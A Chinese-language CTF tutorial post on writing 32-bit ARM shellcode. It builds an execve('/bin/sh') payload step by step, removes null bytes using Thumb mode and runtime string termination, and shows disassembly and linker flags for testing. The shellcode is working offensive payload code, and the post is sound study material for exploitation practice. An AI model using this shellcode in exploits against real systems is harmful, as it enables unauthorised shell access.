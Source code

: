 # Arm Pwn Shellcode


之前一直对 Arm pwn 不了解，但 CTF 中 Arm pwn 出现频率还是挺高的。Defcon qual 2021 也有一道比较简单的 Arm pwn。编写 Shellcode 是漏洞利用的基础，因此从它开始入门 Arm pwn。主要参考 [wrting arm shellcode](https://azeria-labs.com/writing-arm-shellcode/), 系统环境是 [azeria lab vm 2.0](https://azeria-labs.com/lab-vm-2-0/)。
<!--more-->

## 系统调用
一般情况下执行 shellcode 的目的是弹出一个shell，即 `execve("/bin/sh", 0, 0)`。32 bit arm 系统调用号通过 r7传递，参数依次保存在 r0 - r6。汇编代码如下：
```Assembly
.section .text
.global _start

_start:
    add r0, pc, #12
    mov r1, #0
    mov r2, #0
    mov r7, #11
    svc #0

.ascii "/bin/sh\0"
```

## 去除 Null Byte
上面的汇编代码经过汇编后得到的机器指令中含有非常多的 null byte，这对 shellcode 来说是非常致命的。因为漏洞函数往往会被 null byte 截断。
```
$ objdump -d execv

execv:     file format elf32-littlearm


Disassembly of section .text:

00010054 <_start>:
   10054:       e28f000c        add     r0, pc, #12
   10058:       e3a01000        mov     r1, #0
   1005c:       e3a02000        mov     r2, #0
   10060:       e3a0700b        mov     r7, #11
   10064:       ef000000        svc     0x00000000
   10068:       6e69622f        .word   0x6e69622f
   1006c:       0068732f        .word   0x0068732f
```
需要注意的是在 x86 架构下 pc 的值是下一条指令的地址，而在 arm 架构中 pc 的值是下下条指令的地址。

### 指令部分
对于指令中的 null byte 可以通过使用 Thumb mode 来去除。
```Assembly
.section .text
.global _start

_start:
    .code 32
    add r3, pc, #1
    bx r3

    .code 16
    add r0, pc, #8
    eor r1, r1, r1
    eor r2, r2, r2
    mov r7, #11
    svc #1
    mov r5, r5

.ascii "/bin/sh\0"
```
其中 `mov r5, r5` 用于对齐。

### 字符串部分
上面的汇编代码得到的机器码是不含 null byte 的，但作为参数的字符串末尾却必须包含一个 null byte。解决方法是先在目标位置存放一个任意非 0 的值，然后在运行时将它置 0。
```Assembly
.section .text
.global _start

_start:
    .code 32
    add r3, pc, #1
    bx r3

    .code 16
    add r0, pc, #8
    eor r1, r1, r1
    eor r2, r2, r2
    strb r2, [r0, #7]
    mov r7, #11
    svc #1

.ascii "/bin/shx"
```

## 测试 Shellcode
链接时默认 .text 段不可写，而 `/bin/sh` 在 .text 段中。使用 `-N` 使其可写。
```
ld --help | grep 'readonly'
  -N, --omagic                Do not page align data, do not make text readonly
  --no-omagic                 Page align data, make text readonly
```
